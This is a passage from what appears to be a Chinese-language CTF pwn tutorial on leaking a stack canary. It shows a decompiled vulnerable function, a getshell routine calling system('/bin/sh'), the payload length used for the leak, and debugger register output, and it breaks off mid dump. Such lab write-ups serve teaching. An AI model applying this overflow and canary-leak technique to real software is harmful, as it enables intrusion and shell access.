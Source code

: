 ```C
__int64 sub_960()
{
  char buf[40]; // [rsp+0h] [rbp-30h]
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  *(_OWORD *)buf = 0uLL;
  *(_OWORD *)&buf[16] = 0uLL;
  puts("Input your Name:");
  read(0, buf, 0x30uLL);                        // overflow
  printf("Hello %s:\n", buf, *(_QWORD *)buf, *(_QWORD *)&buf[8], *(_QWORD *)&buf[16], *(_QWORD *)&buf[24]);
  read(0, buf, 0x60uLL);                        // overflow
  return 0LL;
}
```

同时也发现程序中给了能直接 get shell 的函数
```asm
.text:0000000000000A3E getshell        proc near
.text:0000000000000A3E ; __unwind { .text:0000000000000A3E                 push    rbp
.text:0000000000000A3F                 mov     rbp, rsp
.text:0000000000000A42                 lea     rdi, command    ; "/bin/sh"
.text:0000000000000A49                 call    _system
.text:0000000000000A4E                 nop
.text:0000000000000A4F                 pop     rbp
.text:0000000000000A50                 retn
.text:0000000000000A50 ; } // starts at A3E
.text:0000000000000A50 getshell        endp
```
这样我们只要控制 rip 到该函数即可

#### leak canary
在第一次 read 之后紧接着就有一个输出, 而 read 并不会给输入的末尾加上 \0, 这就给了我们 leak 栈上内容的机会, 为了第二次溢出能控制返回地址, 我们选择 leak canary. 可以计算出第一次 read 需要的长度为 0x30 - 0x8 + 1 (+ 1 是为了覆盖 canary 的最低位为非 0 的值, printf 使用 %s 时, 遇到 \0 结束, 覆盖 canary 低位为非 0 值时, canary 就可以被 printf 打印出来了)

```asm
Breakpoint 1, 0x0000557c8443aa08 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7f1898a64690 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x30
 RDI  0x557c8443ab15 ◂— insb   byte ptr [rdi], dx /* 'Hello %s:\n' */
 RSI  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R9   0x7f1898f1d700 ◂— 0x7f1898f1d700
 R10  0x37b
 R11  0x246
 R12  0x557c8443a830 ◂— xor    ebp, ebp
 R13  0x7ffd97aa0540 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
 RSP  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x557c8443aa08 ◂— call   0x557c8443a7e0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
 ► 0x557c8443aa08    call   0x557c8443a7e0
```